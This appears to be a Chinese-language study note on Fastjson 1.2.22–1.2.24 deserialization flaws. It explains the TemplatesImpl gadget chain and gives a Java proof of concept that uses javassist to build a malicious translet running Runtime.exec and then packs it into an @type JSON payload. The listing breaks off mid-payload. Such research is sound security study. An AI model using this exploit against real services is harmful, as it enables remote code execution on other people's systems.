 ![image-20220606212042046](https://blue-satchel.oss-cn-chengdu.aliyuncs.com/img/image-20220606212042046.png)

可以看到,序列化的时候调用了get,反序列化的时候调用了无参构造方法,set和get方法

## 漏洞历史分析

## 1.2.22 - 1.2.24

跟着源码调试了一下,大体流程就是对字符串做语法分析,拆分开,并且对每个属性用fieldInfo进行存储,最后使用反射调用它对应的set方法,这个set方法名是字符串拼接的,不难让人想到TemplatesImpl这个类,这个类有一个`getOutputProperties()`方法

但是有个问题就是这个类中的所有属性都是私有属性,需要添加`Feature.SupportNonPublicField`字段才能通过`JSON.parseObject`进行字符串到对象的转换过程

#### TemplatesImpl调用链

```java
TemplatesImpl.getOutputProperties()
   TemplatesImpl.newTransformer()
      TemplatesImpl.getTransletInstance()
         TemplatesImpl.defineTransletClasses()
            ClassLoader.defineClass()
               Class.newInstance()
```

最主要的地方就是构造TemplatesImpl类中的`_bytecode`属性

这个地方可以使用反射构造继承了`AbstractTranslet`的恶意类来执行代码

恶意代码可以添加在恶意类的静态代码块在类加载的时候执行或者添加到它的构造方法中在实例化的时候调用

学习一下使用`javassist`这个工具来生成一个类并修改代码生成字节码

```java
package com.test;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.Feature;
import com.alibaba.fastjson.parser.ParserConfig;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.codec.binary.Base64;

public class fastJson {
public static class evil{  
}
    public static void main(String[] args)throws Exception {
        ClassPool pool = ClassPool.getDefault();
        CtClass evil = pool.get(evil.class.getName());
        String cmd = "java.lang.Runtime.getRuntime().exec(\"calc\");";
        evil.makeClassInitializer().insertBefore(cmd);
        String randomClassName = "test";
        evil.setName(randomClassName);
        evil.setSuperclass(pool.get(AbstractTranslet.class.getName()));

        byte[] evilCode = evil.toBytecode();
        String evilCode_base64 = Base64.encodeBase64String(evilCode);
        final String Template = "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl";
        String payload =
                "{\"" +
                        "@type\":\"" + Template + "\"," + "\"" +
                        "_bytecodes\":[\"" + evilCode_base64 + "\"]," +
                        "'_name':'asd','" +
                        "_tfactory':{ },\"" +
                        "_outputProperties\":{ }," + "\"" +
                        "_version\":\"1.0\",\"" +
```